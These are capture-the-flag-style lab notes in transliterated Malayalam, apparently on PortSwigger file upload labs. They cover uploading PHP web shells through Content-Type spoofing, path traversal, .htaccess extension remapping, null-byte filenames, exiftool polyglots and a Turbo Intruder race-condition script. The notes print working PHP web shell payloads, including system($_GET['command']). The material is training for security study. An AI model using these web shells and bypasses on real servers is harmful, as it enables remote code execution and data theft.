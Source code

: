 -->A `web shell` is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 
-->If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network

     Lab-1(Remote code execution via web shell upload)
-->ivide namal aadyam wiener:peter aayi keranam
-->enit namude account il puthiya avatar add chyan ulla option undakum
-->so upload option upayogich puthiya image upload chyuka
-->ini thirich my account il poi nokiyal kanam namude avatar avide kanikum
-->ini burp history il pokuka.avide /POST avatar, athupole GET avatar um kanam
-->athayath namal upload chythathum pine upload chythathin shesham aa image namude retireve chyth tharunathum(ee GET req kitan burp il image req tick idanam)
-->ini enth chyanamenal ee rand request repeater il iduka
-->enit /POST avater request il nokiyal kanam ee kodukuka image oru form roopathil aan pokunath.so athil filename=cat.jpg ennayirikum undavuka.so ath mati filename=exploit.php enn kodukuka enit aa image inte valiya oru formatum undakum.ath clear chyuka enit avide - 
           <?php echo file_get_contents('/home/carlos/secret'); ?>
	enna content kodukuka
-->ini namude mate /GET request il poi - GET /files/avatars/expoloit.php HTTP/1.1 enn kodukuka apol namude aa php code il enthano koduthath ath execute aayikolum
-->NOTE: ivide php file execute chyunond aan ee rethiyil exploit chyan kazhinjath
-->nerthe php code aakunilegi ith try chyth noku:
                       <?php echo system($_GET['command']); ?>
                       <?php echo system($_GET['ls']); ?>
-->ee paripadine fileupload vulnerability enn mathramalla ithine main aayi webshell ennan parayuka ok

       Lab-2( Web shell upload via Content-Type restriction bypass)
-->ivide engane aan chyunathenal content-type: header exploit chythitan
-->chela samayangalil server content-type: enna header nokiyan validate chyuka.so ivide namal .php file idunu apol automatic aayi application/php enn content-type kanikum.apol ath namal image/jpeg enn aki koduth send chythal mathi
-->so nerthe pole oru php file undakuka enit athil -            <?php echo file_get_contents('/home/carlos/secret'); ?> .enn kodukuka 
-->file upload chyuka apol error kanikum.image/jpeg type mathrame aaku enn kanikum
-->so nammal onukoodi upload chyuka.ipol intercept chyuka.enit athil content-type:application/php ennath image/jpeg enn akuka enit send adikumbil response kanam upload aayi en
-->ini thirich aa image il poit inspect element adikuka apol athinte sourse src= file kanikum.so aa file il poi nokiyal kanam aa php code inte result so aayi

      Lab-3( Web shell upload via path traversal)
-->ivide nerthe pole alla.nerthe rand lab ilum namal upload chyuna php file server execute chyth tharunund.ivide angane chyunila pakaranam athile content athpole display chyth tharunu enn mathram
-->so namal exploit.php enna file upload chyumbol polum server oru error um tharunila
-->enit aa pathilek poyal aa php code angane thane display chyth tharum
-->so ee avatar upload chyuna /POST request edukuka enit athil - Content-Disposition: form-data; name="avatar"; filename="exploit.php"  enn kanum
-->so ivide filename="../exploit.php" enn koduth ee file parent directory il idan patumon nokuka.apol response 200 ok enn kanikumengilum ../ enn kanikila so athinartham ath path traversal aayi upload nadanitila ennan
-->so ini enth venamenal ../ ennath url encode chyth ..%2f ennakuka.ini send adikumbol response il 200 ok ..%2fexploit.php enn kanikum.
-->==nammal ingane parent directory il idunath enthinanenal current directroyil file execute chyunila.pakarnam parent directory il file idumbol server aa file execute chyan sadhyatha und==
-->so ini namal aa upload chytha image site il ninum nokuka.inspect element adich src=" /files/avatars/..%2fexploit.php" edukuka.enit aa path ilek poyal aa file execute cyunathayi kanam.so aayi

     Lab-4(Web shell upload via extension blacklist bypass)
-->==The .htaccess (Hypertext Access) file is an Apache distributed server configuration file. You can use the .htaccess file to set server configurations for a specific directory.You can use the .htaccess file to modify various configurations and thus make changes to your website. These changes include authorization, error handling, redirects for specific URLs, user permissions, etc==
-->ivide namuk php file upload chyan patila.error varuna response il nokumbol kanam-Server: Apache/2.4.41 (Ubuntu) enn.so apache aan server enn namal manasilaki.ini namal mumbathe point il kandu .htaccess file oru directory il aaki server configuration chyan patumenath.so namal enth chyanamenal `.shell` enna extension varuna files oke php execute chyunathpole execute chyanam enna oru configuration ee .htaccess file il undakunu.apol pine namuk exploit.php enn itt upload chyunathin pakaram exploit.shell enn ittal mathi php execution thane nadanolum
-->so aadyam oru normal image upload chyuka
-->ini exploit.php enna file upload chyuka apol error varum athupole server ine patti disclose chythathum kanum
-->ini filename="exploit.php" ullath mati filename=".htaccess" ennakuka.athinte thazhe -  <?php echo file_get_contents('/home/carlos/secret'); ?> enna exploit.php file inte content maati ->AddType application/x-httpd-php .shell (.josu,.shajan enthum kodukam).ennu kodukuka.ith namal .htaccess file il kodukuna configuration aan.apol enth sambavikumenal ini .shell enna extension varuna files upload aakumbol automatic aayi ith php execution aayitan bhaviyil execute chyapeduka
-->ini ith send chyuka.apol 200 OK kanam.athinartham aa directoryil ee .htaccess file upload aayitund
-->ini namal undo adich nerthe exploit.php upload request il thane thirich varuka.enit filename="exploit.shell" enn kodukuka.content -><?php echo file_get_contents('/home/carlos/secret'); ?> thane aano en urap varuthuka.eni send adichal aa file upload aakum. ini namal files/avatar/exploit.shell pathilek poyal aa php code run aakum angane carlos inte secret kanan patum.aayi

    Lab-5(Web shell upload via obfuscated file extension)
-->ivide namal aadyam oru normal image upload chyuka.enit athile /POST and /GET request edukuka.athayath upload chyuna image inte request um athinu shesham aa same image namuk retireve chyunathum.ella lab ilum ingane thane aan chyunath
-->ini upload chyumbol namuk kanam error varunath
-->so filename="exploit.php" ennath namal "exploit.php%00.jpg" ennakunu.null byte injection aan chythath
-->ipol response il kanam `The file avatars/exploit.php has been uploaded` enn. null byte aayathkond baaki automatic aayi remove aayi
-->ini namal files/avatar/exploit.php il poyal carlos inte secret kitum.aayi

    Lab-6(Remote code execution via polyglot web shell upload)
-->chela samayangalil server oru file ile content thane analyze chyum genuine aano enariyan.ie image file il dimensions undakum apol dimensions ilatha file aannengil reject chyum
-->so ivide namal exiftool enna tool use chyth venduna image file ile meta datas modify chyunu
-->so ->exiftool bg.jpg ennadikumbol aa image file ile meta data kanikum
-->ini ->exiftool -commen="hello" bg.jpg ennadichit pinem ->exiftool bg.jpg adichu nokiyal puthiya oru comment kanan patum
-->so namal enth chyunu enal ee commentile hello value in pakaram oru php code athil kodukunu angane namuk carlos inte secret code kandupidikam
-->exiftool -Comment="<?php echo '################# ' . file_get_contents('/home/carlos/secret') . ' #########################'; ?>" bg.jpg -0 webshell.php
-->ivide #### ennu itathu enthinanenal peten manasilakan aanu evide aan secret code vanathen ariyan
-->ingane php code koduthathin shesham ath mattoru file il akuka(ie webshell.php). ingane chyumbol ath oru polyglot file aayi mari ie .php extension und but ullil athoru jpg file aan.so server in oru samshayavum undakila.ini ee webshell.php file upload chyuka enit /files/avatar/webshell.php enn path il repeateril poi nokiyal kanam responsil ###########   secretcode  #########   .aayi

     Lab-7(Web shell upload via race condition)
-->ivide namal upload chyuna files server avarude thane reethiyil validate chyunu.enit validation pass chyunilengi ath remove chyunu.chelapo server oru prathyeka sandbox il file kondupoi idum enit avide vech analuse chythite accept chyy
-->ingane analyse chyuna aa samayam kond namuk exploitation nadathanam.ie race aayi file kore upload chyanam apol server in ellam validate chyan patanamenila
-->ivide namal aadyam satharana pole oru normal file upload chyunu
-->ini turbo intruder extension install chyanam
-->ini expoit.php enna file upload chyanam apol error varum but kozhapamila.namuk enthayalum ee request vendathan
-->ini /GET /files/avatars/exploit.php enna request edukuka.right click chyth turbo intruder ilek send chyuka
-->enit enth venamenal oru python code und ath add kodukanam.enit aadyam /POST filename="exploit.php" enna reqeust kodukanam.pine athin shehsam thazhe aayi /GET /files/avatar/exploit.php enna request um koduth script add chyanam.enit start attack kodukumbol kanam ee same exploit.php enna file upload chyunath chara para aayi send aakunath apol server in elam validate chyan patila angane ee file execute aakunu server il angane namuk carlos inte secret code kitunu

==============================================================
turbo intruder python code:

      def queueRequests(target, wordlists):
      engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


    def handleResponse(req, interesting):
    table.add(req)
	
==========================================================